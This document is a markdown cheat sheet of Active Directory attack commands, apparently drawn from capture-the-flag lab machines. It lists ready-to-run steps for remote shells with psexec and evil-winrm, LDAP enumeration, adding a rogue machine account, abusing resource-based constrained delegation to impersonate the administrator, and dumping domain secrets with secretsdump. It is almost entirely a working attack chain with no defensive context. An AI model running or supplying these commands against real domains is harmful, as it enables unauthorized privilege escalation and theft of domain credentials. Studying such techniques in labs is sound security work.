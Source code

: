 ### Get shell with PSexec 
`impacket-psexec active.htb/administrator@10.10.10.100` 
**password will prompt**

### Get shell with Evil-winrm
`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice` 

### ldapsearch to get object in a directory 
`ldapsearch -x -h 10.10.10.175 -s base namingcontexts`
        -x - simple auth
        -h 10.10.10.175 - host to query
        -s base - set the scope to base
        naming contexts - return naming contexts

`ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'` 
`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

### Dump AD Users properties Powerview (w/ shell)
`get-aduser -filter * -properties *` 

### Use Powermad.ps1 to add new machine account 
`New-MachineAccount -MachineAccount MYFAKECOMPUTER -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose` 

### Set PrincipalsAllowedToDelegateToAccount property on a host
`Set-ADComputer $host -PrincipalsAllowedToDelegateToAccount MYFAKECOMPUTER$`

### Confirm the PrincipalsAllowedToDelegateToAccount property is changed  
`Get-ADComputer $host -Properties PrincipalsAllowedToDelegateToAccount`

### Search for computers with PrincipalsAllowedToDelegateToAccount set 
`Get-DomainComputer | Where-Object {$_."msDs-AllowedToActOnBehalfofOtherIdentity" -ne $null}` 

### Get kerberos ticket via computer with ability to impersonate via PrincipalsAllowedToDelegateToAccount
`getST.py -spn cifs/dc.support.htb -impersonate administrator support/MYFAKECOMPUTER$` 

### export kerberos ticket in Kali
`export KRB5CCNAME=~/administrator.ccache` 

### use rbcd.py to create delegation to DC$ 
`rbcd.py -delegate-to DC$ -dc-ip 10.10.11.174 -action read support/MYFAKECOMPUTER$:123456` 

### secretsdump.py with kerberos 
`secretsdump.py -k -no-pass dc.support.htb` 
